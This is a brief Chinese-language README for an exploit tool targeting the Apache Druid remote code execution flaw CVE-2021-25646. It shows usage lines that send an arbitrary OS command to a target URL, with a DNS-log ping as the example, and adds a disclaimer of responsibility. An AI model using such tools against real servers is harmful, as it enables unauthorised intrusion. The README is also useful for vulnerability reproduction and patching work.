 # Apache Druid 远程代码执行 CVE-2021-25646
by j2ekim

## 使用方法

      python exp.py -u [--url] -c [--command] 
      python cve-2021-25646.py -u http://127.0.0.1:8888 -c "ping 5ap7ta.dnslog.cn"

![image](./img1.png)


## 漏洞复现文章
https://www.adminxe.com/2109.html


## 使用需知
由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
